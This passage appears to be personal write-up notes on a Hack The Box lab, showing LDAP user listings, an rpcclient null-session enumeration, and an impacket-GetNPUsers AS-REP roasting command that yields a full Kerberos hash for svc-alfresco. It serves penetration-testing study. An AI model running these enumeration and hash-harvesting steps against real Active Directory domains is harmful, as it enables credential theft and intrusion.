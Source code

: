 ```
userPrincipalName: HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local
objectClass: user
userAccountControl: 66048
userPrincipalName: HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local
objectClass: user
userAccountControl: 66048
userPrincipalName: HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local
objectClass: user
userAccountControl: 66048
userPrincipalName: sebastien@htb.local
objectClass: user
userAccountControl: 66048
userPrincipalName: santi@htb.local
objectClass: user
userAccountControl: 66048
userPrincipalName: lucinda@htb.local
objectClass: user
userAccountControl: 66048
userPrincipalName: andy@htb.local
objectClass: user
userAccountControl: 66048
userPrincipalName: mark@htb.local

```
- Tried some enumeration shown at the bottom
	- main find (no longer working but shown at Ippsec...still good way to enumerate):
		```bash
rpcclient -U '' 10.10.10.161
> 
> enumdomusers

---RELEVANT-OUTPUT---
svc-alfresco
```
		- We find an extra user from the users we found at ldapsearch
- finding user with no kerberos pre auth
	```bash
impacket-GetNPUsers -dc-ip 10.10.10.161 -request 'htb.local/'

---OUTPUT---
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2025-04-18 18:08:29.916678  2019-09-23 07:09:47.931194  0x410200 



/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
$krb5asrep$23$svc-alfresco@HTB.LOCAL:bbf235534c8c95a1a797c549f6906165$8bd169e1d3a0e150130daebce352d2ebc575ac4070319b41b1683e52f0859b5d13ee95e55e85fa34cf2f745543a5282721b13ab26c12067f53ae3d930443302a5a4400fabe25828020d964b2f9ff3c4723bb6c11094f9ca22d3e7671f4586906d049bd67fe6ec6ed50f124229475e310987ac85af7233736610bb995f1d4760949e6429562c97bd78175bd309077c8581f31ffe38b1fa91d7590e8eb3832cd5d4a5b0597e73219e94248a7dfe9c0a4946f37a4ef98a6f3f69e888e4fc7a0c05466fd5922a1c1eaf5a98e7c0283ba7cf4db3f0d222092c97682e20247929784cb4b67bb4ba8dc

```